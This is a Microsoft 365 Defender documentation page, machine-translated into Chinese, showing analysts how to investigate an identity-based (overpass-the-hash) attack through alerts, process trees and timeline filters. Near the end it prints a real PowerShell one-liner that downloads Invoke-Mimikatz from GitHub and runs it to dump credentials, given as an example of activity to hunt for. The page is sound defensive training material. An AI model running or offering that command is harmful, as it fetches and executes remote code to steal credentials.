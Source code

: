 ```yaml
---
title: 基于身份的攻击示例
description: 逐步完成基于身份的攻击的示例分析。
keywords: 事件， 警报， 调查， 关联， 攻击， 计算机， 设备， 用户， 标识， 标识， 邮箱， 电子邮件， 365， microsoft， m365， 事件响应， 网络攻击
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: f0695f406bdc2063c58d87c61032d120442928e5
ms.sourcegitcommit: d08fe0282be75483608e96df4e6986d346e97180
ms.translationtype: MT
ms.contentlocale: zh-CN
ms.lasthandoff: 09/12/2021
ms.locfileid: "59175361"
---
```

# <a name="example-of-an-identity-based-attack"></a>基于身份的攻击示例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**适用于：**
- Microsoft 365 Defender

Microsoft Defender for Identity 可帮助检测恶意尝试泄露组织标识。 由于 Defender for Identity 与 Microsoft 365 Defender集成，因此安全分析师可以了解来自 Defender for Identity 的威胁，例如可疑的 Netlogon 特权提升尝试。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>分析 Microsoft Defender 中针对标识的攻击

Microsoft 365 Defender分析员可以在事件页面的"警报"选项卡上按检测源筛选警报。 在下面的示例中，将检测源筛选为 Defender **for Identity**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="筛选 Defender for Identity 的检测源的示例。":::

选择 **可疑的哈希攻击警报** 将转到显示更多详细信息的 Microsoft Cloud App Security页面中。 通过选择"了解有关此警报类型"以阅读攻击描述以及修正建议，你始终可以了解有关警报或[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)攻击的更多信息。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="可疑的哈希攻击警报示例。"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>调查 Microsoft Defender for Endpoint 中的相同攻击

或者，分析员可以使用 Defender for Endpoint 了解有关终结点上活动更多信息。 从事件队列中选择事件，然后选择" **警报"** 选项卡。在这里，他们还可以识别检测源。 标记为终结点的检测源EDR终结点检测和响应，即 Endpoint 的 Defender。 从此处，分析员选择由用户检测到EDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Defender for Endpoint 中的终结点检测和响应示例。"::: 

警报页面显示各种相关信息，如影响的设备名称、用户名、自动调查的状态以及警报详细信息。 警报情景描述进程树的可视化表示形式。 进程树是与警报相关的父进程和子进程的分层表示形式。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Defender for Endpoint 中的警报进程树示例。"::: 

可以展开每个进程以查看其他详细信息。 分析师可以看到的详细信息是作为恶意脚本的一部分输入的实际命令、出站连接 IP 地址和其他有用信息。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Defender for Endpoint 中进程详细信息的示例。":::
 
通过选择 **"在时间线中** 查看"，分析员可以进一步向下钻取以确定泄露的确切时间。 

Microsoft Defender for Endpoint 可以检测许多恶意文件和脚本。 但是，由于出站连接、PowerShell 和命令行活动的许多合法用途，某些活动在创建恶意文件或活动之前被认为是恶意活动。 因此，使用时间线可帮助分析员将警报置于与周围活动的上下文中，以确定攻击的原始源或时间，否则，常见文件系统和用户活动会掩盖这些攻击。 

为完成此操作，分析员将在警报检测 (以红色) 并向后向下滚动，以确定导致恶意活动的原始活动何时实际启动。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="警报检测时开始的示例。"::: 

必须了解并区分常见活动，如 Windows 更新连接、Windows 受信任的软件激活流量、与 Microsoft 站点的其他常见连接、第三方 Internet 活动、Microsoft Endpoint Configuration Manager 活动和其他恶意活动与可疑活动。 实现此目的的一个方法就是使用时间线筛选器。 有许多筛选器可在筛选掉分析员不想查看的一切内容时突出显示特定活动。 

在下图中，分析员经过筛选，以便仅查看网络和处理事件。 这允许分析员查看与事件（记事本 IP 地址建立连接）周围的网络连接和进程，我们在进程树中也可以看到这一点。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="如何使用记事本进行恶意出站连接的示例。"::: 

在此特定事件，记事本恶意出站连接。 但是，攻击者通常只需iexplorer.exe来建立连接来下载恶意负载，因为通常iexplorer.exe进程被视为常规 Web 浏览器活动。

时间线中要查找的另一项是 PowerShell 用于出站连接。 分析员会通过命令（如 后跟托管恶意文件的网站的出站连接）查找成功的 PowerShell `IEX (New-Object Net.Webclient)` 连接。 

在下面的示例中，PowerShell 用于从网站下载和执行 Mimikatz：

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
分析员可以通过在搜索栏中键入关键字来快速搜索关键字，以仅显示使用 PowerShell 创建的事件。 

## <a name="next-step"></a>后续步骤

请参阅 [网络钓鱼调查](first-incident-path-phishing.md) 路径。

## <a name="see-also"></a>另请参阅

- [事件概述](incidents-overview.md)
- [管理事件](manage-incidents.md)
- [调查事件](investigate-incidents.md)
